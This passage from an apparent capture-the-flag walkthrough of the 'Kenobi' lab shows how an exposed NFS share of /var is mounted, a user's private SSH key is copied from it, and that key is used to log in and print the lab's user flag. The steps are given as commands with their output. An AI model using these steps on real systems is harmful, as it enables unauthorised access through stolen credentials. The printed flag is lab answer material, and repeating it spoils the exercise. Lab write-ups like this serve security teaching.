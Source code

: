 ## 3. Retrieving the Private Key via NFS

### 3.1 Confirm NFS Exports

```bash
showmount -e 10.10.82.31
```

```
Export list for 10.10.82.31:
/var *(rw,no_subtree_check,async)
```

* **Conclusion:** The entire `/var` directory is available via NFS.

### 3.2 Mount `/var` on Attacker Machine

```bash
sudo mkdir -p /mnt/kenobiNFS
sudo mount 10.10.82.31:/var /mnt/kenobiNFS
```

### 3.3 Verify and Copy `id_rsa`

```bash
ls -l /mnt/kenobiNFS/tmp
```

```
total 20
-rw-r--r-- 1 neo neo 1675 Jun 6 13:45 id_rsa
...
```

* **Result:** `/mnt/kenobiNFS/tmp/id_rsa` exists and is Kenobi’s private key.

```bash
cp /mnt/kenobiNFS/tmp/id_rsa ~/pro/k/kenobi_id_rsa
chmod 600 ~/pro/k/kenobi_id_rsa
```

---

## 4. SSH into Kenobi’s Account

```bash
ssh -i ~/pro/k/kenobi_id_rsa kenobi@10.10.82.31
```

* **First-time Connection Prompt:** Accept the host key fingerprint.
* **Successful Login:** Drop directly into Kenobi’s shell:

```text
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

kenobi@kenobi:~$ ls -l
drwxr-xr-x 2 kenobi kenobi 4096 Sep  4  2019 share
-rw-rw-r-- 1 kenobi kenobi   33 Sep  4  2019 user.txt

kenobi@kenobi:~$ cat user.txt
d0b0f3f53b6caa532a83915e19224899
```
